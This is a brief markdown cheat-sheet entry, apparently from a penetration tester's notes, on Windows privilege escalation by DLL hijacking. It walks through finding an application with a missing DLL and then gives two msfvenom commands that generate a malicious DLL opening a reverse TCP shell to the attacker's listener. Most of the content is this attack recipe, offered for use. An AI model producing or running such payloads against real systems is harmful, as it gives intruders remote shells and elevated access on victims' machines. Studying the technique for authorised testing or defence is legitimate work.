 Enumerate installed application as [Apllications CheatSheet](CHEATSHEETS/3.PrivilegeEscalation/Windows/Enumeration/Applications). 

```ad-tip
That can also be homemade apps. Be aware of some logs to see witch DLL can be missing.
```

Search on Google for DLL hijacking vulnerability based on the application name and version.

Get the executable on owned machine to procmon with admin rights and find the missing DLL.

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LOCALHOST LPORT=$LOCAL_PORT -f dll -o EnterpriseServiceOptional.dll
```

```shell
msfvenom -p windows/shell/reverse_tcp LHOST=$LOCALHOST LPORT=$LOCAL_PORT -f dll > $DLL_TARGET.dll # Can don't work
```

